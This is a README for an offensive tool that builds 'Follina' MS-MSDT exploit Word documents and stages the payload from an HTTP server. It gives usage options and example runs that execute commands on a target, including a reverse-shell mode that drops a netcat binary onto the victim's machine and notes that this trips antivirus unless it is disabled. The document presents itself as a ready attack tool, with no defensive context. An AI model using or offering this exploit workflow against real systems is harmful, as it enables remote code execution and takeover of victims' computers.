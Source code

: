 # MS-MSDT-Follina-Attack-Vector
MS-MSDT "Follina"
Create a "Follina" MS-MSDT attack with a malicious Microsoft Word document and stage a payload with an HTTP server.

<p align="center">
    <img src="https://github.com/trewisscotch/MS-MSDT-Follina-Attack-Vector/blob/main/171033876-dbe73e3e-0a3a-436a-91d8-7fa77a5c1ace.png" alt="Image"  />
</p>

# Usage

```
usage: follina.py [-h] [--command COMMAND] [--output OUTPUT] [--interface INTERFACE] [--port PORT]

options:
  -h, --help            show this help message and exit
  --command COMMAND, -c COMMAND
                        command to run on the target (default: calc)
  --output OUTPUT, -o OUTPUT
                        output maldoc file (default: ./follina.doc)
  --interface INTERFACE, -i INTERFACE
                        network interface or IP address to host the HTTP server (default: eth0)
  --port PORT, -p PORT  port to serve the HTTP server (default: 8000)
```

# Examples

Pop `calc.exe`:

```
$ python3 follina.py   
[+] copied staging doc /tmp/9mcvbrwo
[+] created maldoc ./follina.doc
[+] serving html payload on :8000
```

Pop `notepad.exe`:

```
$ python3 follina.py -c "notepad"
```

Get a reverse shell on port 9001. **Note, this downloads a netcat binary _onto the victim_ and places it in `C:\Windows\Tasks`. It does not clean up the binary. This will trigger antivirus detections unless AV is disabled.**

```
$ python3 follina.py -r 9001
```

<p align="center">
    <img src="https://github.com/trewisscotch/MS-MSDT-Follina-Attack-Vector/blob/main/171037880-03a73d6a-4606-4c42-abcb-ee52a9e669c6.png" alt="Image"  />
</p>
